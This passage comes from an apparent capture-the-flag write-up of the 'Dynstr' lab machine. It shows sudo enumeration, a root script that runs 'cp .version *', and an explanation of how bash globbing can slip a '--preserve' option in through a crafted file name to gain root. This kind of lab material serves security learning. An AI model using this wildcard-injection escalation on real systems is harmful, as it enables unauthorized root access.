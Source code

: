 ```bash
bindmgr@dynstr:~$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
bindmgr@dynstr:~
```

Checking its content, noticed one interesting entry in **line 42**, where the script, running as `root`, copies the file `.version` and all other existing files in the current directory (`*`) to $BINDMGR_DIR. Also, it requires a `.version` file in the current directory to be compared with the existing configuration in the server.

```bash
# Stage new version of configuration files.
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/
```

After the first execution, noticed that `.version` was copied with `root` permissions, allowing us to abuse a SUID binary this way.

```bash
bindmgr@dynstr:/tmp/tmp.UzxayH3IIl$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.UzxayH3IIl.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
cp: cannot stat '*': No such file or directory
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors:
    /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/*: file not found
bindmgr@dynstr:/tmp/tmp.UzxayH3IIl$ ls -la /etc/bind/named.bindmgr/
total 12
drwxr-sr-x 2 root bind 4096 Aug 16 18:22 .
drwxr-sr-x 3 root bind 4096 Aug 16 18:22 ..
-rw-r--r-- 1 root bind    2 Aug 16 18:22 .version
```

Checking the [cp \| GTFOBins](https://gtfobins.github.io/gtfobins/cp/#suid) for SUID, noticed that if `cp` has SUID it could be used to copy contents from restricted file systems but, as it is not the case, we would need another way to abuse the use of `cp` in this script.

One point seen in the page mentioned above is that we could use the parameter `--preserve` to **preserve file attributes** during the copy. Appending this parameter to execution could be achieved thanks to a `bash` feature called **filename expansion**, popularly known as ***[globbing](https://tldp.org/LDP/abs/html/globbingref.html)*** which **expands** the names of the files during command execution.  This behavior can be seen in the example below with `echo`:

```bash
bindmgr@dynstr:/tmp/tmp.PdP9Qf49qx$ ls -l
total 0
-rw-rw-r-- 1 bindmgr bindmgr 0 Aug 16 19:15 file.sh
-rw-rw-r-- 1 bindmgr bindmgr 0 Aug 16 19:15 test.txt
bindmgr@dynstr:/tmp/tmp.PdP9Qf49qx$ echo *
file.sh test.txt
```
